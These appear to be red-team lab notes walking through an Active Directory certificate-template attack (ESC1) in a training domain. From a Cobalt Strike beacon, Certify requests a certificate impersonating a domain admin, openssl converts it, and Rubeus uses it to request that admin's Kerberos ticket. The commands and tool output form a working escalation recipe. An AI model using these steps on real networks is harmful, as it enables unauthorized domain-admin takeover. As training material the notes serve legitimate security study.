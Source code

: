 ```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable
```
![[customuser.png]]
This configuration allows any domain user to request a certificate for any other domain user (including a domain admin) and use it for authentication.  Request a certificate for nlamb.
```
beacon> getuid
[*] You are DEV\bfarmer

beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:CustomUser /altname:nlamb

[*] Action: Request a Certificates
[*] Current user context    : DEV\bfarmer
[*] No subject name specified, using current context as subject.

[*] Template                : CustomUser
[*] Subject                 : CN=Bob Farmer, CN=Users, DC=dev, DC=cyberbotic, DC=io
[*] AltName                 : nlamb

[*] Certificate Authority   : dc-2.dev.cyberbotic.io\sub-ca

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 11

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
[...]
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
[...]
-----END CERTIFICATE-----

[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

Certify completed in 00:00:05.4521116
```
Copy the whole certificate (both the private key and certificate) and save it to `cert.pem` on Ubuntu WSL.  Then use the provided `openssl` command to convert it to pfx format.
```
ubuntu@DESKTOP-3BSK7NO ~> openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter Export Password: pass123
Verifying - Enter Export Password: pass123
```
Convert `cert.pfx` into a base64 encoded string so it can be used with Rubeus
```
ubuntu@DESKTOP-3BSK7NO ~> cat cert.pfx | base64 -w 0
MIIM7w[...]ECAggA
```
Ask for a tgt of a domain admin
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /certificate:MIIM7w[...]ECAggA /password:pass123 /nowrap
```
